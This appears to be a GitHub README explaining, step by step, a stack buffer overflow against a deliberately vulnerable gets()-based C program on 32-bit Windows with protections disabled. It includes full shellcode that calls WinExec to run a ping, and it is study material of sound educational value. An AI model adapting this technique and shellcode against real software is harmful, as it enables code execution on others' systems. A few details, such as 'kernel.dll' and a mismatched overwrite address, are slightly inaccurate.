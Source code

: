 ## Table of Contents
- [Overview](#overview)
- [Basic Exploit Structure](#basic-exploit-structure)
- [Crafting the Exploit - Loading the Command String into Memory](#crafting-the-exploit---loading-the-command-string-into-memory)
- [Crafting the Exploit - Calling WinExec](#crafting-the-exploit---calling-winexec)
- [Crafting the Exploit - Final Touches](#crafting-the-exploit---final-touches)


## Overview
This project demonstrates a simple buffer overflow attack. The vulnerable program reads a string from the user and then prints it back. However, the function used for reading user input, ```gets()```, does not verify whether the buffer is large enough for a given input, making it vulnerable to buffer overflow. This attack works on x86 Windows with ASLR, stack canaries and non-executable stack disabled. The project includes three files:
- ```vulnerable.c``` is the target of the attack
- ```exploit.bin``` is the input we will give to the vulnerable program to execute our code (our goal will be to open a new terminal window and ping google)
- ```getAddr.c``` is a helper program that will print the address of the function ```WinExec``` (its usefulnes will be apparent later)

The following is a detailed description of how the exploit was developed. I used OllyDbg throughout this project.

## Basic Exploit Structure
Having identified a vulnerable input in our program, we need to first analyze what the stack looks like before we enter our input. This is a diagram of the stack layout after the prolog of ```main```
```
address   value  
0019FEF0  0019FF08 - the start of the input buffer   <= ESP

...

0019FF2C  0019FF74 - saved EBP                       <= EBP  
0019FF30  00401279 - return address  
0019FF34  00000001 - argc 
0019FF38  005DCA48 - argv
```
```ESP``` is pointing to the start of the buffer (```0x0019FEF0```) and ```EBP``` is pointing to the ```saved EBP``` (```0x0019FF74```). It is worth noting that ```ESP``` will be pointing to ```argc``` (```0x0019FF34```) after returning from ```main```.

The rough idea of our exploit is to write the code into the buffer and then overwrite the ```return address``` with the address of our code. This will cause the ```ret``` instruction at the end of the function to execute our code. The buffer has 60B and we also need to overwrite the ```saved EBP``` to get to the ```return address```, so our exploit needs to be 68B long. The first 64B can be shellcode and the last 4 bytes need to be the address, where we want to redirect execution. We have to add padding if our shellcode is not long enough to exactly match this length. Overall, the exploit needs to have the following format
```
|  shellcode & padding   |  shellcode address
|          64B           |       4B
```
We should note now that our input cannot include arbitrary bytes.  CPP reference ([https://en.cppreference.com/w/c/io/gets](url)) states that ```gets``` loads input until it reaches either ```0x0A``` ('\n') or ```0x1A``` (EOF). Our exploit therefore cannot contain these bytes. Another limitation arises from our input method - we would not be able to enter ```0x08``` (backspace) and ```0x00``` if we were to write the exploit directly into the console. However, this can be overcome by writing the exploit into a binary file and then sending it into the input of the vulnerable program.

## Crafting the Exploit - Loading the Command String into Memory 

Let us now consider what the shellcode will actually look like. Our goal is to open a new terminal window and run ```ping 8.8.8.8```. This can be done by calling ```WinExec``` with ```cmd /k start cmd /k ping 8.8.8.8``` as its first argument. The second argument to ```WinExec``` will be 1 (``SW_NORMAL``). The first thing we need to do is to store the first argument as a null terminated string in memory. This can be done easily by making it the first part of our shellcode. The string itself looks like this
```
63 6D 64 20 2F 6B 20 73 74 61 72 74 20 63 6D 64 
20 2F 6B 20 70 69 6E 67 20 38 2E 38 2E 38 2E 38
```
Now we need to add a null byte to the end. We could just write it there in our exploit file, but that would make the exploit unusable if we were to type it directly into a console. A more universal solution is to add four bytes of padding to the end of the string and then overwrite that padding with null bytes in our code. The beginning of our exploit will therefore be 
```
63 6D 64 20 2F 6B 20 73 74 61 72 74 20 63 6D 64 
20 2F 6B 20 70 69 6E 67 20 38 2E 38 2E 38 2E 38
61 61 61 61
| padding |
```
This is what the stack will look like once our exploit has been loaded into memory
```
address   value
0019FEF0  636D6420 - the beginning of our buffer   <= ESP
0019FEF4  2F6B2073
0019FEF8  74617274
0019FEFC  20636D64
0019FF00  202F6B20
0019FF04  70696E67
0019FF08  20382E38
0019FF0C  2E382E38
0019FF10  61616161 - padding

...

0019FF2C  0019FF74 - saved EBP                     <= EBP
0019FF30  00401279 - return address
0019FF34  00000001 - argc 
0019FF38  005DCA48 - argv
```

We can see that we need to write ```0x00000000``` to the address ```0x0019FF10``` and we need to do this without using an instruction that would itself contain a null byte. In particular, we cannot directly write the address we are trying to write to. Fortunately, we can calculate the address using ```ESP```. ```ESP``` will be pointing to ```argc``` (```0x0019FF34```) after the program returns from ```main``` and starts executing our code, meaning that the target address can be calculated as ```ESP - 0x24```. In summary, we can write the required null bytes using the following instructions

```
shellcode     assembly
33C0          XOR EAX, EAX                   - zero out eax
894424 DC     MOV DWORD PTR[ESP - 24], EAX   - write a zero to 0x0019FF14
```

## Crafting the Exploit - Calling WinExec

Let us now consider what the stack will look like right after returning from main.

```
address   value
0019FEF0  636D6420 - the beginning of our buffer
0019FEF4  2F6B2073
0019FEF8  74617274
0019FEFC  20636D64
0019FF00  202F6B20
0019FF04  70696E67
0019FF08  20382E38
0019FF0C  2E382E38
0019FF10  61616161 - padding
0019FF14  33C08944 - first instructions of our code     <= PC
...

0019FF2C  ........ - last instructions of our code                     
0019FF30  0019FF14 - overwritten return address
0019FF34  00000001 - argc                               <= ESP
0019FF38  005DCA48 - argv
```
The next step is to push the arguments of ```WinExec``` onto the stack. The first argument we need to push is 1 and the second is the address of the command string - ```0x0019FEF0```. We use the same technique as before to avoid having to type a null byte in our exploit to store this address in ```EBX```. However, we cannot push onto the stack yet. The diagram above shows that doing so would overwrite our own code. We will solve this by subtracting a sufficiently large number from ```ESP```, thus moving the top of the stack above our code. The exact number does not matter, it only needs to be large enough for the resulting ```ESP``` to point above the beginning of the buffer. Once this is done we proceed to push the arguments we wish to pass to ```WinExec``` onto the stack.

```
shellcode        assembly
8BDC             MOV EBX,ESP - copy ESP to EBX
83EB 44          SUB EBX,44  - now EBX points to the start of the buffer, which is the address of our command string
83EC 50          SUB ESP,50  - move the stack pointer above the buffer
6A 01            PUSH 1      - push the first argument
53               PUSH EBX    - push the second argument
```

Now we need to call ```WinExec```. This function is part of ```kernel.dll```. Addresses of library functions are randomized upon being loaded into memory, but ```kernel.dll``` is included in every process running on Windows. This means that its address is only randomly assigned when the operating system starts and remains the same until shutdown. This allows us to use ```getAddr.c``` to find the address beforehand and be sure that it will be the same once we execute the vulnerable program. However, the address will be different each time we reboot our computer, so this part of the exploit needs to be manually changed for it to work. I got the address ```0x75CF4890``` during my testing. Note that the byte order of the address needs to be reversed when writing it into the exploit. This leads us to the last two instructions of our exploit.

```
shellcode        assembly
B8 75CF4890      MOV EAX,KERNEL32.WinExec - load the address of WinExec into EAX
FFD0             CALL EAX                 - call the function
```

This is the entire code:
```
33C0             XOR EAX,EAX
894424 DC        MOV DWORD PTR SS:[ESP-24],EAX
8BDC             MOV EBX,ESP
83EB 44          SUB EBX,44
83EC 50          SUB ESP,50
6A 01            PUSH 1
53               PUSH EBX
B8 9048CF75      MOV EAX,KERNEL32.WinExec
FFD0             CALL EAX
```

## Crafting the Exploit - Final Touches

We get the following exploit after adding the code to our command string.
```
63 6D 64 20 2F 6B 20 73 74 61 72 74 20 63 6D 64 
20 2F 6B 20 70 69 6E 67 20 38 2E 38 2E 38 2E 38 
61 61 61 61 33 C0 89 44 24 DC 8B DC 83 EB 44 83 
EC 50 6A 01 53 B8 90 48 CF 75 FF D0
```
This code is 60B long so we need to add 4B of padding followed by the address of our code (```0x0019FF14```). We once again encounter the issue of having to write a null byte. However, the bytes we actually need to write into the buffer are ```14 FF 19 00```. Notice that the null byte is the very last byte of our exploit. Fortunately, ```gets``` stores its input as a null terminated string, so it will write this problematic byte for us. The complete shellcode therefore looks like this
```
63 6D 64 20 2F 6B 20 73 74 61 72 74 20 63 6D 64 
20 2F 6B 20 70 69 6E 67 20 38 2E 38 2E 38 2E 38 
61 61 61 61 33 C0 89 44 24 DC 8B DC 83 EB 44 83 
EC 50 6A 01 53 B8 90 48 CF 75 FF D0 61 61 61 61
14 FF 19          |          |      |         |
|      |         WinExec address      padding
address of our code (the null byte will be written by gets)
```

Remember that it is necessary to replace the ```WinExec``` address by the address printed by ```getAddr.c```. Finally, we run the exploit using ```vulnerable < exploit.bin```.
